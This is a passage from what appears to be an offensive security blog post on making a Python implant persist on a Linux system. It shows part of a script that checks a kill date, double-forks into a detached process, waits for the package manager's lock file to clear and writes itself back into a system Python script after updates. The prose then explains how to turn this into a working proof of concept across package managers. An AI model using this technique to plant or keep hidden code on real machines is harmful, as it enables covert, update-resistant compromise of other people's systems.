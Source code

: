    # if we are after kill date,
    # remove ourselves and return
    if timeToKill():
        remove()
        return
    # if not, go ahead
    try:
        pid = os.fork()
        if pid > 0:
            # parent can just return
            return
    except Exception as e:
        return
    # child process
    try:
        # setsid and fork again
        os.setsid()
        pid2 = os.fork()
        if pid2 > 0:
            # second parent can just exit
            sys.exit(0)
        # second child wait to re-persist
        writeBad()
    except Exception as e:
        sys.exit(1)    

bad()
{% endhighlight %}

In our new script, we double fork and then our new process waits for the package manager's lock/pid file to disappear. Then, it re-adds itself to the original location. This should ensure that after the script is overwritten by the updater, our code goes right back where we want it. For simplicity, we're just adding our block to the end of the script. The nice thing about Python is that this will run even if it's added to a library script that is normally just imported by something else.

### From Concept to PoC

There are still some problems with this code as it stands. We may get an error because we're importing new libraries after the original import in the Python script we've modified. To fix that, we can call imp.acquire_lock() when we spawn a new thread. In addition, in order to ensure the script works on systems with different package managers, the correct location for the pid/lock file should be substituted.
